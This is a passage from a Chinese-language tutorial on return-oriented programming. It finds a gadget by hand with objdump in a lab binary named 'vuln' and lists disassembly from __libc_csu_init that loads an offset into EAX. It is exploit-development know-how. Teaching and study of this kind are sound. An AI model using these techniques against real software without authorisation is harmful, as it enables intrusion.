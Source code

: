 ![2](../img/28b7a14f62cab29b76b8d143d8499d01.png)

在似乎没有更多方法时（至少对于我来说，当我开始了解 ROP 的时候），Reno 向我介绍了下面的解法，通过手动搜索 ROP 零件。非常感谢，所以继续吧。

## 手动搜索 ROP 零件

由于 ROP 零件工具不能找到`pop eax;ret;`零件，让我们手动搜索来寻找，是否能找到任何有趣的零件，能够帮助我们将偏移差复制给 EAX 寄存器。

反汇编二进制`vuln`（使用下面的命令）：

```
$objdump -d vuln > out
```

零件 4：使用偏移差`0xfffff530`加载 EAX。反汇编展示了一个 MOV 指令，它将栈内容复制给 EAX：

```
80485b3: mov 0x34(%esp),%eax
80485b7: mov %eax,0x4(%esp)
80485bb: call *-0xe0(%ebx,%esi,4)
80485c2: add $0x1,%esi
80485c5: cmp %edi,%esi
80485c7: jne 80485a8 <__libc_csu_init+0x38>
80485c9: add $0x1c,%esp
80485cc: pop %ebx
80485cd: pop %esi
80485ce: pop %edi
80485cf: pop %ebp
80485d0: ret
```
